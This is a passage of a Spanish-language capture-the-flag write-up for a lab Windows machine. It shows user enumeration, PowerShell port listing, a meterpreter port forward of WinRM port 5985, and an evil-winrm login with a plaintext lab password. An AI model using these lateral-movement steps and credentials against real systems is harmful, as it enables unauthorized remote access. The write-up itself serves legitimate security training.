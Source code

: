 ```powershell
net user development
```

Y vemos que tiene acceso a remote management. Así que si tunelizamos con chisel el 5985 junto a evil-winrm tendremos acceso a development.

Ahora para ver los puertos abiertos de salida:

Con esto vamos a tener una forma más cómoda de visualizar:

```powershell
Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}} | FT -Property LocalAddress,LocalPort,ProcessName
```

Ahora vamos a analizar los puertos 9512 y 9510 que son de RemoteServerWin.

**RemoteServerWin.exe** es un archivo exe ejecutable que pertenece al proceso Unified Remote, desarrollado por Unified Intents AB. El proceso RemoteServerWin.exe en Windows 10 es importante, se debe tener cuidado al trabajar con él. RemoteServerWin.exe puede estar usando demasiado la CPU o la GPU. Si se trata de malware o virus, es posible que se esté ejecutando en segundo plano.

Usamos las credenciales generadas anteriormente, primero reenviando el puerto y luego con evil-winrm:

```bash
portfwd add –l 5985 –p 5985 –r 127.0.0.1
```

```bash
sudo evil-winrm -i 127.0.0.1 -u 'development' -p 'AMl.q2DHp?2.C/V0kNFU'
```

![Evil-WinRM](/secciones/posts/imagenes/hancliffe/evilrm1.jpg)
